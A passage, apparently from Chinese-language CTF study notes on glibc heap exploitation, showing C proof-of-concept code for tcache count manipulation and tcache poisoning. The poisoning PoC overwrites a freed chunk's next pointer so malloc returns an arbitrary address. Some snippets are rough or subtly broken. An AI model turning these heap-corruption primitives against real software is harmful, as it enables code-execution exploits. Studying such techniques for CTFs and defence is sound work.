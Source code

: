 ```c
    size_t* chunk1=malloc(0x410); //smallest
    malloc(0x20); //padding and size not frome tcache
    free(chunk1);
    // 如果题目限制了 free 次数那么需要通过 tcache dup 再 malloc 3 次将 counts 对应位置置为 -1 来绕过 tcache 
    size_t* chunk2=malloc(0x20);
    size_t* chunk3=malloc(0x20);
    free(chunk2);
    size_t* a;
    chunk2[0]=&a; 
    malloc(0x20);
    //bins:         0x30 [  0]: 0x7fffffffdcb8
    malloc(0x20);
    //bins:         0x30 [ -1]: 0x7ffff7ffe710
    free(chunk3);
    //控制 tcache_perthread_struct 从而控制 counts 实现绕过 tcache 。
    size_t chunk4=malloc(0x30);
    char* heap_base=getheap();
    heap_base[0x12]="7";
    free(chunk4);
    
}
```
## tcache poisoning
通过覆盖 tcache 中的 next，但要可以访问，因为取出next对应的chunk时会有`e->next`然后不需要伪造任何 chunk 结构即可实现 malloc 到任何地址。

```c
 tcache_get (size_t tc_idx)
{
  tcache_entry *e = tcache->entries[tc_idx];
  assert (tc_idx < TCACHE_MAX_BINS);
  assert (tcache->entries[tc_idx] > 0);
  tcache->entries[tc_idx] = e->next;
  --(tcache->counts[tc_idx]);
  return (void *) e;
} 
```
### poc

```c
#include <stddef.h>
#include <stdlib.h>
#include <stdio.h>

int main()
{
    size_t* chunk1=malloc(0x10);
    free(chunk1);
    size_t fakechunk[0x20];
    chunk1[0]=fakechunk;  //memory
    malloc(0x10);
    size_t* destchunk=malloc(0x10);
    printf("destchunk 0x%p\n",destchunk);
    printf("&fakechunk[0] 0x%p\n",fakechunk);

}
```
